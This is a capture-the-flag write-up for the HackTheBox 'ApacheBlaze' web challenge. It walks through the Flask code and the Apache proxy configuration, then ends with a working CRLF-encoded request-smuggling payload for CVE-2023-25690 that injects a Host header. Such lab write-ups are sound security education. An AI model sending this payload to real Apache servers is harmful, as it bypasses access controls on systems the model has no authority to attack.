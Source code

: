 # [ApacheBlaze](https://app.hackthebox.com/challenges/ApacheBlaze) [HTB]
_Web_

## Investigating the website
This challenge's website hosts 4 different games, including:

> Click topia <br>
💎 Tap Tap equals to flag. 💎

Clicking on the play button returns a hint: 

> This game is currently available only from `dev.apacheblaze.local`.

As there is nothing else on the site (none of the other games actually works), I start looking at the code.

## Analyzing the code
This time I'm dealing with a Flask server. A simple search in the code reveals what is the condition to get the flag:
```py
if game == 'click_topia':
    print(f'{request.headers}', file=sys.stderr)
    if request.headers.get('X-Forwarded-Host') == 'dev.apacheblaze.local':
        return jsonify({
            'message': f'{app.config["FLAG"]}'
        }), 200
    else:
        return jsonify({
            'message': 'This game is currently available only from dev.apacheblaze.local.'
        }), 200
```
This looks straightforward, right? I add the required header to the HTTP search, run it and get the ~~flag~~ same exact response. 

What's going on? 

## Blaming Apache
Since simply setting the header doesn't work, and there is nothing suspicious in the rest of the Flask code, good old Apache Server must be the one sabotaging my exploit.

First, I take a look at the `httpd.conf` file, and discover that the server is using an internal proxy:
```
<VirtualHost *:1337>

    ServerName _

    DocumentRoot /usr/local/apache2/htdocs

    RewriteEngine on

    RewriteRule "^/api/games/(.*)" "http://127.0.0.1:8080/?game=$1" [P]
    ProxyPassReverse "/" "http://127.0.0.1:8080:/api/games/"

</VirtualHost>

<VirtualHost *:8080>

    ServerName _

    ProxyPass / balancer://mycluster/
    ProxyPassReverse / balancer://mycluster/

    <Proxy balancer://mycluster>
        BalancerMember http://127.0.0.1:8081 route=127.0.0.1
        BalancerMember http://127.0.0.1:8082 route=127.0.0.1
        ProxySet stickysession=ROUTEID
        ProxySet lbmethod=byrequests
    </Proxy>

</VirtualHost>
```
From the [Apache documentation](https://httpd.apache.org/docs/trunk/mod/mod_proxy.html#x-headers) I discover that `ProxyPass` is actually responsible for setting `X-Forwarded-Host` to the `Host` of my original request. This means I must find a way to set `Host` to `dev.apacheblaze.local`.

## Smuggling the Host
From the Dockerfile, I discover the Apache version that is being used: 2.4.55. A search on Google returns that this version is vulnerable to HTTP Response Splitting (CVE-2023-25690). 

My aim is to smuggle this request:
```
GET /api/games/click_topia HTTP/1.1
Host: dev.apacheblaze.local
```
To do so, I follow [this PoC](https://github.com/dhmosfunk/CVE-2023-25690-POC) and perform header injection:
```
GET /api/games/click_topia%20HTTP/1.1%0d%0aHost:%20dev.apacheblaze.local%0d%0a%0d%0aGET%20/api/games/click_topia HTTP/1.1
[...]
```
The injection is successful and I receive the flag!
